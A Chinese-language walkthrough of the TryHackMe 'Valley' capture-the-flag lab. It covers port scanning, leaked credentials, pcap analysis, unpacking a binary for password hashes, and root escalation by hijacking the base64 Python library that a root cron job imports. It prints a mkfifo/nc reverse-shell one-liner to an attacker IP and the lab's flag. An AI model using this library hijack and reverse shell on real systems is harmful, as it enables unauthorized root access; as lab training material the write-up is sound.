


## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -A -p 22,80,37370 10.10.13.31 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 03:40 EST
Nmap scan report for 10.10.13.31
Host is up (0.36s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
|_  256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 3.1 (92%), Linux 3.2 (92%), Linux 2.6.32 (91%), Sony X75CH-series Android TV (Android 5.0) (90%), Linux 3.11 (90%), Linux 3.2 - 4.9 (90%), QNAP QTS 4.0 - 4.2 (90%), ASUS RT-N56U WAP (Linux 3.4) (90%), Linux 3.16 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   357.85 ms 10.13.0.1
2   ... 3
4   367.45 ms 10.10.13.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.79 seconds\
```

## 目录扫描

## web信息收集

找到信息，在目录下有随机上传的笔记

管理者：ValleyDev
根据提示找到登录界面

这个登录界面太搞了，打开burp抓包发现没有数据包
看源码发现是前端的判断
细看源码找到一个目录及用户名和密码
f12找到了信息泄露

siemDev/california


既然看到这里了，肯定是要ftp了

## ftp渗透

```bash
ftp> ls
229 Entering Extended Passive Mode (|||48239|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
ftp> mget *
local: siemFTP.pcapng remote: siemFTP.pcapng
229 Entering Extended Passive Mode (|||39941|)
150 Opening BINARY mode data connection for siemFTP.pcapng (7272 bytes).
100% |**********************************************************************************************************************************************|  7272        2.58 KiB/s    00:00 ETA
226 Transfer complete.
7272 bytes received in 00:03 (2.27 KiB/s)
local: siemHTTP1.pcapng remote: siemHTTP1.pcapng
229 Entering Extended Passive Mode (|||18147|)
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |**********************************************************************************************************************************************|  1932 KiB   76.25 KiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:25 (75.08 KiB/s)
local: siemHTTP2.pcapng remote: siemHTTP2.pcapng
229 Entering Extended Passive Mode (|||14677|)
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |**********************************************************************************************************************************************|  1926 KiB   71.34 KiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:28 (67.60 KiB/s)
```
登录下载到三个流量包

valleyDev/ph0t0s1234
都看了一下
最终在第三个流量包中，看到有内网ip
查看后发现有登录密码及账号

## 第一个立足点，shell
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh valleyDev@10.10.179.85
The authenticity of host '10.10.179.85 (10.10.179.85)' can't be established.
ED25519 key fingerprint is SHA256:cssZyBk7QBpWU8cMEAJTKWPfN5T2yIZbqgKbnrNEols.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.179.85' (ED25519) to the list of known hosts.
valleyDev@10.10.179.85's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$
```
## 逆向文件得到valley用户密码

这里涉及到逆向了，只能看题解了
```bash
valleyDev@valley:/home$ ls -la
total 752
drwxr-xr-x  5 root      root        4096 Mar  6  2023 .
drwxr-xr-x 21 root      root        4096 Mar  6  2023 ..
drwxr-x---  4 siemDev   siemDev     4096 Mar 20  2023 siemDev
drwxr-x--- 16 valley    valley      4096 Mar 20  2023 valley
-rwxrwxr-x  1 valley    valley    749128 Aug 14  2022 valleyAuthenticator
drwxr-xr-x  6 valleyDev valleyDev   4096 Mar  4 04:20 valleyDev

valleyDev@valley:/home$ python3 -m http.server 9999
```
发现valleyAuthenticator文件
传到kali来
```bash
sudo chmod +x valleyAuthenticator
sudo upx valleyAuthenticator
sudo upx -d valleyAuthenticator
strings valleyAuthenticator
strings valleyAuthenticator | grep -i pass -B 15 -A 15
```
upx valleyAuthenticator去壳
sudo upx -d valleyAuthenticator解析
strings valleyAuthenticator | grep -i pass -B 15 -A 15
查看密码信息

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ strings valleyAuthenticator | grep -i pass -B 15 -A 15
dL3$%0
hI9m
[]A\A]
AUATI
USHc
[]A\A]A^
t*f.
[]A\
I9\$xv.I
T$pH
tKU1
e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb
Welcome to Valley Inc. Authenticator
What is your username: 
What is your password: 
Authenticated
Wrong Password or Username
basic_string::_M_construct null not valid
%02x
basic_string::_M_construct null not valid
terminate called recursively
  what():  
terminate called after throwing an instance of '
terminate called without an active exception
basic_string::append
__gnu_cxx::__concurrence_lock_error
__gnu_cxx::__concurrence_unlock_error
locale::_S_normalize_category category not found
locale::_Impl::_M_replace_facet
NSt6locale5facetE
N9__gnu_cxx24__concurrence_lock_errorE
N9__gnu_cxx26__concurrence_unlock_errorE
                                              
```
发现MD5
e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb

破解后使用valley用户登录

## base64 库文件提权

```bash
valley@valley:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```
容易发现是有个计划任务的
没分钟执行一次，很符合提权的条件
```bash
valley@valley:/photos/script$ cat photosEncrypt.py 
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```
但是问题是无法更改py文件的内容
但是可以更改import base64 的库文件
添加提权命令
```bash
import os
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.48.59 53 >/tmp/f')
```


此时去等待反弹shell即可
```bash
┌──(kali㉿kali)-[~/LPE]
└─$ sudo nc -lvnp 53                                  
listening on [any] 53 ...
connect to [10.13.48.59] from (UNKNOWN) [10.10.179.85] 41518
sh: 0: can't access tty; job control turned off
# whoami
root
# ls /root
root.txt
snap
# cat /root/root.txt
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
# 
```